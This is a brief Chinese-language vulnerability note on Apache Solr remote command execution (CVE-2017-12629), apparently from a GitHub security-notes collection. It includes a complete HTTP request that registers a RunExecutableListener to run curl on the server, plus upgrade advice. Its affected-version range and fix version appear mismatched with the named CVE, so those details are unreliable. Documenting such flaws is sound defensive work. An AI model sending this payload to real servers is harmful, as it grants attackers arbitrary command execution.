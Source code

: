 ### 一 漏洞名
Apache Solr Rce(CVE-2017-12629)

### 二 漏洞描述
Apache Solr 是Apache开发的一个开源的基于Lucene的全文搜索服务器。  
其集合的配置方法（config路径）可以增加和修改监听器，增加时能通过RunExecutableListener执行任意系统命令。


### 三 利用
增加监听器触发命令执行
```POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://127.0.0.1:8080"]
  }
}
```

### 四 修复建议
升级solr到8.4.0

受影响的版本： 4.x至8.3.1

下载地址：https://lucene.apache.org/solr/downloads.html

> 参考：
> https://www.freebuf.com/sectool/159970.html
> https://cloud.tencent.com/developer/article/1144777

